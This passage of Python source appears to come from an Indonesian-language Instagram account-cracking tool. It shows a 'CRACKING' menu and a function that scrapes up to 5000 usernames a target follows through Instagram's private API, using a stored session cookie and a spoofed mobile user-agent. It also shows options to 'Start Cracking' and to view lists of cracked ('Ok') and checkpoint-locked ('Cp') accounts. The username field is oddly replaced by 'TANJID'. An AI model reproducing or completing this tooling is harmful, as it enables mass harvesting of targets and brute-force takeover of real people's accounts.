     print(f"{P}┃ NO ┃ PILIHAN MENU CRACKING ┃ STATUS ┃")
    print(f"{P}┡━━━━╇━━━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━┩")
    print(f"{P}│ {P}01{B} │{P} Dumps insta followers │   {H}ON{P}   │")
    print(f"{P}│ {P}02{B} │{P} Dumps insta following │   {H}ON{P}   │")
    print(f"{P}│ {P}03{B} │{P} Dumps insta beranda   │   {H}ON{P}   │")
    print(f"{P}│ {P}04{B} │{P} Dumps insta pencarian │   {H}ON{P}   │")
    print(f"{P}│ {P}05{B} │{H} Start Cracking{P}        │   {H}ON{P}   │")
    print(f"{P}│ {P}06{P} │{P} Result Account {H}OK{P}-{K}CP{P}  │ {H}  •{K}•{P}   │")
    print(f"{P}│ {P}00{P} │{M} Logout {P}& {M}Remove Cokie{P} │   {M}••{P}   │")
    print(f"{P}└────┴───────────────────────┴────────┘")
    ___pilih = input(f"{P}Choose :{K} ")
    if ___pilih in ['1','01']:
        ___pengikut___()
    elif ___pilih in ['2','02']:
        ___mengikuti___()
    elif ___pilih in ['3','03']:
        ___beranda___()
    elif ___pilih in ['4','04']:
        ___search___()
    elif ___pilih in ['5','05']:
        ___proxy___()
    elif ___pilih in ['6','06']:
        try:
            print(f"\n{H}[{P}1{H}]{P} Total Ok")
            print(f"{H}[{P}2{H}]{P} Total Cp")
            print(f"{H}[{P}3{H}]{P} Return\n")
            ___hasil = input(f"{B}[{P}?{B}]{P} Choose :{K} ")
            if ___hasil in ['1','01']:
                print(f"{P} ");os.system('cat Results/Ok.txt')
            elif ___hasil in ['2','02']:
                print(f"{P} ");os.system('cat Results/Cp.txt')
            elif ___hasil in ['3','03']:
                ___menu___()
            else:
                exit(f"{P}[{M}!{P}]{M} Wrong Input")
        except:pass
    elif ___pilih in ['0','00']:
        print(f"{P}[{K}!{P}]{K} Delete Cookie...");os.system('rm -rf Data/coki.txt && rm -rf Data/user.txt');exit()
    else:
        exit(f"{P}[{K}!{P}]{M} Wrong Input")
# Dump Mengikuti
def ___mengikuti___():
    try:
        ___user = input(f"\n{P}[{H}*{P}]{P} USERNAME :{K} ")
        if ___user[:1] in ['1','2','3','4','5','6','7','8','9','0']:
            exit(f"{P}[{M}*{P}]{M} MOHON GUNAKAN USERNAME !")
        else:
            ___roz = requests.get(f'https://www.instagram.com/{___user}/?__a=1', headers = {'user-agent': 'Mozilla/5.0 (Linux; Android 10; SM-G973F Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/86.0.4240.198 Mobile Safari/537.36 Instagram 166.1.0.42.245 Android (29/10; 420dpi; 1080x2042; samsung; SM-G973F; beyond1; exynos9820; en_GB; 256099204)', 'cookie': open('Data/coki.txt','r').read()}).json()['graphql']['user']
            print(f"{H}[{P}?{H}]{P} Name :{K} {___roz['TANJID']}\n")
            ___file = (___roz['TANJID'].replace(' ','_')+'.txt')
        with requests.Session() as ses:
            ___zak = ses.get(f'https://i.instagram.com/api/v1/friendships/{___roz["id"]}/following/?count=5000', headers = {'user-agent': 'Mozilla/5.0 (Linux; Android 10; SM-G973F Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/86.0.4240.198 Mobile Safari/537.36 Instagram 166.1.0.42.245 Android (29/10; 420dpi; 1080x2042; samsung; SM-G973F; beyond1; exynos9820; en_GB; 256099204)', 'cookie': open('Data/coki.txt','r').read()}).json()
            for z in ___zak['users']:
